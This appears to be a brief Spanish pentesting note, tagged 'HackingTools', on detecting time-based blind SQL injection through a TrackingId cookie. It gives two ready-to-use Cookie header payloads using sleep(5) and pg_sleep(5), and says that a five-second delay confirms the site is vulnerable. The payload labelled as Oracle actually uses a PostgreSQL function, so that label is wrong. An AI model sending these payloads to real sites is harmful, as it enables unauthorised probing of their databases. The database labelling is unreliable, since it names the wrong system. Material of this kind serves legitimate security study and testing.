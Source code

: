```yaml
---
tags:
  - HackingTools
---
```

---
En caso sospechar por una SQLi podemos hacer lo siguiente 
```http
// En MySQL
Cookie: TrackingId=gdFX0T2vTzlEi85Q' and sleep(5)-- -;

// En oracle
Cookie: TrackingId=gdFX0T2vTzlEi85Q'||pg_sleep(5)-- -;

```

En caso de demorar los 5 segundos seria vulnerable a SQLi

![[Pasted image 20250111163435.png]]